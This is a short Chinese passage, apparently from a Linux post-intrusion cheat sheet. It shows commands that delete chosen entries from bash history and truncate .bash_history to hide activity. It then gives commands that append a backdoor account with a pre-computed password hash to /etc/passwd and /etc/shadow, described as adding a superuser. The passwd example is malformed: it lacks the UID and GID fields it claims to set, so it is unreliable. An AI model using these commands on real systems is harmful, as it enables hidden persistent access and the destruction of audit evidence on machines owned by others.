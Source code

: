 技巧二：从历史记录中删除指定的命令

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们怎么办？很简单。通过下面的命令来删除：

```
history | grep "keyword"


```

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

```
history -d \[num\]


```

删除大规模历史操作记录，这里，我们只保留前 150 行：

```
sed -i '150,$d' .bash\_history


```

#### 1.4 passwd 写入

```
/etc/passwd 各部分含义：
用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL


```

```
/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用 


```

写入举例：

1\. 增加超级用户

```
$perl -le 'print crypt("momaek","salt")'
savbSWc4rx8NY

$echo "momaek:savbSWc4rx8NY:hacker:/root:/bin/bash" >> /etc/passwd


```

2\. 如果系统不允许 uid=0 的用户远程登录，可以增加一个普通用户账号

```
echo "momaek:savbSWc4rx8NY:-1:-1:-1:-1:-1:-1:500" >> /etc/shadow


```
